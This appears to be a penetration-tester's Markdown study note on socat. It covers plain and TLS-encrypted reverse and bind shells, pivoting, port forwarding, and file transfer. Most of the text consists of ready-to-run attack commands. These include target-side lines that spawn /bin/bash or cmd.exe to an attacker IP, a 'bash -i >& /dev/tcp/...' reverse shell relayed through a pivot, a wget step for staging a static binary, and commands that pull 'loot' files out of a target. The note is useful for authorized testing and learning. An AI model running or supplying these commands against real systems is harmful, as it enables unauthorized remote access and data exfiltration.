


## `socat`

>**[`socat`](http://www.dest-unreach.org/socat/doc/socat.html) (Socket Cat)** is a multipurpose command-line tool for **bidirectional data transfer** between **two independent data channels**.

- `socat` establishes two independent, bidirectional byte streams and transfers data between them. Whatever arrives at one stream gets written to the other, and vice versa, until either side closes the connection.
- `socat` can relay almost *anything* to *anything*, including:
	- TCP sockets
	- UDP sockets
	- Unix domain sockets
	- IP raw sockets
	- Serial ports
	- Pseudo terminals
	- File descriptors
	- Pipes
- This is useful for pivoting: when you get a foothold on a host that can reach a target you can't reach directly, you drop `socat` on the pivot and use it to bridge traffic across the network boundary and back.
### Using `socat`

- Command syntax:

```bash
socat [options] <address_1> <address_2>
```

- Each `<address>` specifies an endpoint: a protocol type followed by its parameters and comma-separated options. 
- `socat` creates both endpoints and copies bytes between them in both directions.

>[!note] Global options (e.g., `-u`, `-d`) go _before_ the addresses.

>[!note] `-` is shorthand for `STDIO` — the current terminal's `stdin`/`stdout`.
## `socat` bind and reverse shells

### Reverse shells



1. On your **attacking machine**, start a listener:

```bash
socat TCP-LISTEN:1337,reuseaddr -
```

2. From the **target machine**, connect to the listener:

```bash
socat TCP:10.10.11.11:1337 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

> [!note]+ Fully interactive TTY
> 
> - The `EXEC` option set makes the shell fully interactive:
> 
> | Option   | Description                                                                                 |
> | -------- | ------------------------------------------------------------------------------------------- |
> | `pty`    | Allocate a pseudo-terminal (PTY) with a proper prompt, tab completion, and command history. |
> | `stderr` | Merge the child's error stream into the output stream.                                      |
> | `setsid` | Detach the child process from the controlling terminal.                                     |
> | `sigint` | Forward `Ctrl+C` to the shell instead of killing the `socat` process itself.                |
> | `sane`   | Reset the PTY to sane terminal settings.                                                    |

>[!tip]+ 
>- On a Windows machine, use:
> ```bash
> socat.exe TCP:10.10.11.11:1337 EXEC:"C:\Windows\System32\cmd.exe",pipes
> ```

#### Encrypted reverse shells

1. On your **attacking machine**, generate a self-signed certificate:

```bash
openssl req -x509 -newkey rsa:2048 -noenc -days 365 -subj "/CN=localhost" -keyout shell.key -out shell.crt
```

>[!note]- `openssl` options
> 
> | Option             | Description                                       |
> | ------------------ | ------------------------------------------------- |
> | `req`              | Request certificate generation.                   |
> | `-x509`            | Generate an X.509 certificate instead of a CSR.   |
> | `-newkey rsa:2048` | Generate a new 2048-bit RSA private key.          |
> | `-noenc`           | Do not encrypt the private key with a passphrase.<br>For OpenSSL versions `<3.0`, use `-nodes` instead.|
> |`-subj "/CN=..."` | Set the subject non-interactively; otherwise `openssl` prompts for certificate fields. | 
> | `-days`            | Certificate validity period, in days.             |
> | `-keyout`          | File to write the private key to.                 |
> | `-out`             | File to write the certificate to.                 |

2. Create a combined PEM file:

```bash
cat shell.crt shell.key > shell.pem
```

3. Start a TLS listener:

```bash
socat OPENSSL-LISTEN:1337,reuseaddr,cert=shell.pem,verify=0
```

4. From the **target machine**, connect to the listener over TLS:

```bash
socat OPENSSL:10.10.11.11:1337,verify=0 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```


> [!note] `verify=0` disables certificate validation. It's required with self-signed certificates, on both the listener and the client.

### Bind shells


1. On the **target machine**, start a listener:

```bash
socat TCP-LISTEN:1337,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

>[!tip]+
>- On a Windows target, use:
>```powershell
>socat.exe TCP-LISTEN:1337,reuseaddr,fork EXEC:"C:\Windows\System32\cmd.exe",pipes
>```

2. From your **attacking machine**, connect to the listener:

```bash
socat - TCP:10.10.11.5:1337
```

```bash
nc 10.10.11.5 1337
```

> [!note] The interactive TTY comes from the options on the `EXEC` side, not from your client; plain `nc` connects just as well.
#### Encrypted bind shells

1. On the **target machine**, generate a self-signed certificate:

```bash
openssl req -x509 -newkey rsa:2048 -noenc -days 365 -subj "/CN=localhost" -keyout shell.key -out shell.crt
```

>[!note]- `openssl` options
> 
> | Option             | Description                                       |
> | ------------------ | ------------------------------------------------- |
> | `req`              | Request certificate generation.                   |
> | `-x509`            | Generate an X.509 certificate instead of a CSR.   |
> | `-newkey rsa:2048` | Generate a new 2048-bit RSA private key.          |
> | `-noenc`           | Do not encrypt the private key with a passphrase.<br>For OpenSSL versions `<3.0`, use `-nodes` instead.|
> |`-subj "/CN=..."` | Set the subject non-interactively; otherwise `openssl` prompts for certificate fields. | 
> | `-days`            | Certificate validity period, in days.             |
> | `-keyout`          | File to write the private key to.                 |
> | `-out`             | File to write the certificate to.                 |

2. Create a combined PEM file:

```bash
cat shell.crt shell.key > shell.pem
```

3. Start a TLS listener:

```bash
socat OPENSSL-LISTEN:1337,reuseaddr,fork,cert=shell.pem,verify=0 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

4. From your **attacking machine**, connect to the listener over TLS:

```bash
socat - OPENSSL:10.10.11.5:1337,verify=0
```

> [!note] `verify=0` disables certificate validation. It's required with self-signed certificates, on both the listener and the client.

## `socat` for pivoting

- A pivot host acts as an intermediary between your attacking machine and the target network: you can reach the pivot, the pivot can reach the target, but you can't reach the target directly. You can use `socat` as a bridge between the two.



>[!tip]+
> - Most targets won't have `socat` installed.
> - [`socat static binary for Linux`](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat):
> 
> ```bash
> wget https://github.com/andrew-d/static-binaries/raw/refs/heads/master/binaries/linux/x86_64/socat
> ```
#### TCP port forwarding

1. On the **pivot host**, forward a local port to the target service:

```bash
socat TCP-LISTEN:8080,fork,reuseaddr TCP:172.16.5.19:80
```

- Whenever you connect to the listener on the pivot (`10.10.11.5:8080`), the traffic is redirected to `172.16.5.19:80`.
- From your point of view, the internal service appears to be hosted directly on the pivot:

```bash
curl -I http://10.10.11.5:8080/
```

- The same pattern works for any TCP service — change the ports on both sides:

```bash
socat TCP-LISTEN:3307,fork,reuseaddr TCP:172.16.5.19:3306
```

```bash
mysql -h 10.10.11.5 -P 3307 -u root -p
```


> [!tip]+ 
> 
> - By default, a listener on the pivot is open to anyone who can reach it. 
> - To specify a listening interface and filter clients:
> 
> ```bash
> socat TCP-LISTEN:8080,fork,reuseaddr,bind=10.10.11.5,range=10.10.11.11/32 TCP:172.16.5.19:80
> ```
> 
> - `bind=` — bind the listener to a specific local IP instead of all interfaces.
> - `range=` — only accept connections from the given source range.

#### Relaying a reverse shell through a pivot

1. On your **attacking machine**, start a catch listener:

```bash
nc -lvnp 1337
```

2. On the **pivot host**, start a listener that relays connections to your catch listener:

```bash
socat TCP-LISTEN:8080,fork,reuseaddr TCP:10.10.11.11:1337
```

3. On the **internal target**, trigger a reverse shell pointed at the pivot's _internal_ IP address and the forwarding port:

```bash
bash -i >& /dev/tcp/172.16.5.5/8080 0>&1
```

- The internal target connects to the pivot, and the pivot forwards that connection to your listener — you end up with a shell.
- The target itself needs nothing but `bash` for this; you don't need `socat` on it. But if you _can_ stage `socat` (or Python) there, use it to set up a fully interactive shell (pointed at the pivot's `172.16.5.5:8080`).
### Relaying a bind shell through a pivot

1. On the **internal target**, start a bind shell listener:

```bash
socat TCP-LISTEN:1337,fork,reuseaddr EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

- Any bind shell works here (such as `socat`, `netcat`, `python`, `perl`), the pivot just needs something listening on the target.

2. On the **pivot host**, forward a local port to the bind listener on the target:

```bash
socat TCP-LISTEN:8080,fork,reuseaddr TCP:172.16.5.19:1337
```

3. From your **attacking machine**, connect to the forwarding port on the pivot:

```bash
nc 10.10.11.5 8080
```

### Wrapping connections in TLS

- `socat` can encrypt the traffic between your attacking machine and the target.
- To encrypt a listener side (`TCP-LISTEN:PORT,fork,reuseaddr`):

```
OPENSSL-LISTEN:PORT,fork,reuseaddr,cert=shell.pem,verify=0
```

- To encrypt a client side (`TCP:<IP_address>:<port>`):

```bash
OPENSSL:<IP_address>:<port>,verify=0
```

- The certificate always resides on the **listener** side.
- The relay in the middle doesn't need to understand TLS; it just shuffles bytes.
#### Encrypted reverse-shell through the pivot

1. On your **attacking machine**, generate a certificate and PEM file (same commands as above):

```bash
openssl req -x509 -newkey rsa:2048 -noenc -days 365 -subj "/CN=localhost" -keyout shell.key -out shell.crt
```

```bash
cat shell.crt shell.key > shell.pem
```

2. Start the catch listener:

```bash
nc -lvnp 1337
```

3. Put TLS in front of it (terminate TLS and relay plaintext traffic to the local listener):

```bash
socat OPENSSL-LISTEN:443,fork,reuseaddr,cert=shell.pem,verify=0 TCP:127.0.0.1:1337
```

4. On the **pivot host**, relay the internal callback to your machine over the encrypted link:

```bash
socat TCP-LISTEN:8080,fork,reuseaddr OPENSSL:10.10.11.11:443,verify=0
```

5. On the **internal target**, trigger the reverse shell at the pivot:

```bash
bash -i >& /dev/tcp/172.16.5.5/8080 0>&1
```

> [!important] `verify=0` disables certificate validation on the client side; this is necessary when using self-signed certificates.

>[!note] In this chain only the pivot → attacker leg is TLS; the target → pivot leg stays plaintext. That's usually acceptable on internal networks — and if you want it encrypted too, apply the same swap on that leg.

- The same swap gives you an **end-to-end encrypted bind shell through the pivot**: TLS listener on the internal target (encrypted bind shells section), plain TCP forward on the pivot, and `socat - OPENSSL:10.10.11.5:8080,verify=0` from your machine. The relay sees only ciphertext.
## File transfers

- `socat` can be used for files transfers as well: point one address at a file and the other at a socket.

 >[!note] `socat` transfers are binary-safe; you can copy executables and images same as text.
### Pushing files to the target

1. On the machine _sending_ the file (such as your attacking machine), start a listener pointing to the target files as the source:

```bash
socat TCP-LISTEN:1337,reuseaddr file:payload.txt
```

2. On the machine *receiving* the file (such as the target machine), connect to the listener and write the file to disk:

```bash
socat TCP:10.10.11.11:1337 file:payload.txt,create
```

> [!note]+ `create` creates the destination file if it doesn't exist.

>[!note] `socat` exits when the file hits EOF. Use `fork` on the listener to serve multiple downloads.
### Pulling files from the target

1. On the machine _receiving_ the file (such as your attacking machine), start a listener with `create`:

```bash
socat TCP-LISTEN:1337,reuseaddr file:loot.txt,create
```

2. On the machine _sending_ the file (such as the target machine), connect with the file as the source:

```bash
socat TCP:10.10.11.11:1337 file:loot.txt
```

 >[!note] Swap `TCP` for `OPENSSL` to encrypt an exfiltration.

## Command syntax reference

### `socat` address types

| Address type                      | Description                                                                                                                                        |
| --------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-`                               | Shorthand for `STDIO` — your terminal's `stdin`/`stdout`, used to interact with the other endpoint.                                                |
| `TCP`, `TCP4`, `TCP6`             | TCP client connection (dual-stack, IPv4-only, IPv6-only).                                                                                          |
| `UDP`                             | UDP client connection.                                                                                                                             |
| `TCP-LISTEN`                      | Listens on a local TCP port for incoming connections.                                                                                              |
| `UDP-LISTEN`                      | Listens on a local UDP port.                                                                                                                       |
| `OPENSSL`                         | TLS client connection.                                                                                                                             |
| `OPENSSL-LISTEN`                  | Listens on a TCP port and acts as a TLS server.                                                                                                    |
| `EXEC`                            | Runs a command and connects its `stdin`/`stdout` to the data stream (used for shells). Quote the command if it contains spaces.                    |
| `SYSTEM`                          | Runs a command via `/bin/sh -c` — allows shell syntax like pipes and redirects.                                                                    |
| `file:`                           | Reads from / writes to a file (file transfers; combine with `create` when writing).                                                                |
| `STDIO`                           | Explicit form of `-` (the current terminal's `stdin`/`stdout`).                                                                                    |
| `PIPE`                            | Connects to a named pipe (FIFO, First-In First-Out).                                                                                               |
| `TUN`                             | Creates a TUN/TAP virtual network interface.                                                                                                       |
| `SOCKS4`, `SOCKS4A`               | Connects through a SOCKS4/4A proxy as a client.                                                                                                    |
| `SOCKS5-CONNECT`, `SOCKS5-LISTEN` | `SOCKS5-CONNECT` reaches a target through a SOCKS5 proxy; `SOCKS5-LISTEN` is also client-side — it asks the SOCKS5 server to listen on its behalf. |

### `socat` address options

>[!note] Options are specified comma-separated, after the address type (e.g., `TCP-LISTEN:1337,fork,reuseaddr`).

- Listener options (`TCP-LISTEN`, `UDP-LISTEN`, `OPENSSL-LISTEN`):

| Option         | Description                                                                                                                                                                                                                              |
| -------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `fork`         | Spawn a child process for each new connection instead of exiting after the first one.<br>Required for any listener that should serve more than one client — or survive a disconnect.                                                     |
| `reuseaddr`    | Allow the listener to rebind a port still in `TIME_WAIT`.<br>Without this option, restarting a listener on the same port fails with `Address already in use` until the OS clears the time-out; `reuseaddr` lets you restart immediately. |
| `bind=<ip>`    | Bind the listener to a specific local IP address/interface instead of all of them (e.g., only the pivot's external NIC).                                                                                                                 |
| `range=<cidr>` | Only accept connections from the given source range (e.g., `range=10.10.11.11/32`).                                                                                                                                                      |

- Shell options (`EXEC`):

| Option   | Description                                                                                                           |
| -------- | --------------------------------------------------------------------------------------------------------------------- |
| `pty`    | Allocate a pseudo-terminal for the spawned program (needed for a fully interactive shell).                            |
| `stderr` | Send the child's `stderr` into the data stream too (errors reach your session instead of the target's local console). |
| `setsid` | Run the child in a new session, detached from the controlling terminal.                                               |
| `sigint` | Pass `SIGINT` (`Ctrl+C`) through to the child instead of killing the `socat` process itself.                          |
| `sane`   | Restore sane terminal settings after `pty` allocation.                                                                |
| `pipes`  | Use unnamed pipes for interprocess communication instead of a socket pair — the Windows alternative to `pty`.         |

- TLS options (`OPENSSL`, `OPENSSL-LISTEN`):

| Option          | Description                                                                                                                                                                                  |
| --------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `cert=<file>`   | Path to a PEM certificate (usually cert and key bundled into one file) — set on `OPENSSL-LISTEN`, and on `OPENSSL` when client-certificate authentication is required.                        |
| `key=<file>`    | Path to the TLS private key, when not bundled into `cert=`.                                                                                                                                  |
| `verify=`       | Whether to verify the peer's TLS certificate (`0` disables verification). Required with self-signed certificates, on both sides.                                                              |
- Other address options:

| Option   | Description                                                                  |
| -------- | ---------------------------------------------------------------------------- |
| `crlf`   | Translate line endings between LF and CRLF.                                  |
| `create` | Create the target file if it doesn't exist (used with `file:` when writing). |

### `socat` global options

- Flags placed before the two addresses:

| Option                       | Description                                                                                          |
| ---------------------------- | ---------------------------------------------------------------------------------------------------- |
| `-V`                         | Print version and compiled-in feature information, then exit.                                        |
| `-h`, `-?`                   | Print command-line options and address types.                                                        |
| `-d`, `-dd`, `-ddd`, `-dddd` | Increase log verbosity one level per `-d` (warning → notice → info → debug).                         |
| `-d0`                        | Print only fatal and error messages — restores the pre-1.7.4 default verbosity.                      |
| `-D`                         | Log information about the file descriptors before starting the transfer phase.                       |
| `-u`                         | Unidirectional mode, `<address_1>` → `<address_2>` only.                                             |
| `-U`                         | Unidirectional mode in reverse, `<address_2>` → `<address_1>` only.                                  |
| `-b <size>`                  | Set the data transfer block size (bytes per step; default 8192).                                     |
| `-t <timeout>`               | Seconds to wait before closing the second channel after one channel reaches EOF (default 0.5).       |
| `-T <timeout>`               | Total inactivity timeout — terminate after `<timeout>` seconds with no data transferred in the loop. |
| `-lf <file>`                 | Write log output to a file instead of stderr.                                                        |
| `-ly`                        | Send log output to syslog.                                                                           |


>[!note] See [`socat`](http://www.dest-unreach.org/socat/doc/socat.html) for a comprehensive reference.

## References and further reading

- [`socat — www.dest-unreach.org`](http://www.dest-unreach.org/socat/doc/socat.html)
- [`Socat for Pentester — Hacking Articles`](https://www.hackingarticles.in/socat-for-pentester/)
- [`Using socat to bridge interfaces — Marcus Folkesson`](https://www.marcusfolkesson.se/blog/using-socat-to-bridge-interfaces/)
- [`Reverse Shell Cheat Sheet, Socat — Internal All The Things`](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#socat)
- [`Bind Shell Cheat Sheet, Socat — Internal All The Things`](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/#socat)
- [`static-binaries (precompiled socat) — andrew-d, GitHub`](https://github.com/andrew-d/static-binaries)